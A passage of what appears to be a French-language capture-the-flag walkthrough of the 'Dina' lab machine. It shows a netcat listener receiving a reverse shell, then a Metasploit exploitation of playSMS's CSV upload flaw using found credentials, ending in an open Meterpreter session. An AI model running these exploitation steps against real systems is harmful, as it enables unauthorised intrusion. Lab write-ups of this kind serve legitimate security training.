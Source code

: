 ### "Réponse" n°2 sur la machine de l'attaquant

```console
root@blinils:~# nc -lvp 12345
listening on [any] 12345 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 39973
/bin/sh: 0: can't access tty; job control turned off
$ id; uname -a;
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux
$ 
```

### Et avec Metasploit ?

```console
root@blinils:~# msfconsole --quiet
[*] Starting persistent handler(s)...
msf > search playsms

Matching Modules
================

   Name                                       Disclosure Date  Rank       Check  Description
   ----                                       ---------------  ----       -----  -----------
   exploit/multi/http/playsms_filename_exec   2017-05-21       excellent  Yes    PlaySMS sendfromfile.php Authenticated "Filename" Field Code Execution
   exploit/multi/http/playsms_uploadcsv_exec  2017-05-21       excellent  Yes    PlaySMS import.php Authenticated CSV File Upload Code Execution


msf > use exploit/multi/http/playsms_uploadcsv_exec

msf exploit(multi/http/playsms_uploadcsv_exec) > set LHOST 192.168.56.102
LHOST => 192.168.56.102
msf exploit(multi/http/playsms_uploadcsv_exec) > set PASSWORD diana
PASSWORD => diana
msf exploit(multi/http/playsms_uploadcsv_exec) > set USERNAME touhid
USERNAME => touhid
msf exploit(multi/http/playsms_uploadcsv_exec) > set RHOST 192.168.56.101
RHOST => 192.168.56.101
msf exploit(multi/http/playsms_uploadcsv_exec) > set TARGETURI /SecreTSMSgatwayLogin/
TARGETURI => /SecreTSMSgatwayLogin/

msf exploit(multi/http/playsms_uploadcsv_exec) > exploit -j -z
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.56.102:4444 
[+] Authentication successful: touhid:diana
[*] Sending stage (38247 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.102:4444 -> 192.168.56.101:51654) at 2018-10-10 11:11:11 +0100

msf exploit(multi/http/playsms_uploadcsv_exec) > sessions

Active sessions
===============

  Id  Name  Type                   Information           Connection
  --  ----  ----                   -----------           ----------
  1         meterpreter php/linux  www-data (33) @ Dina  192.168.56.102:4444 -> 192.168.56.101:51654 (192.168.56.101)
```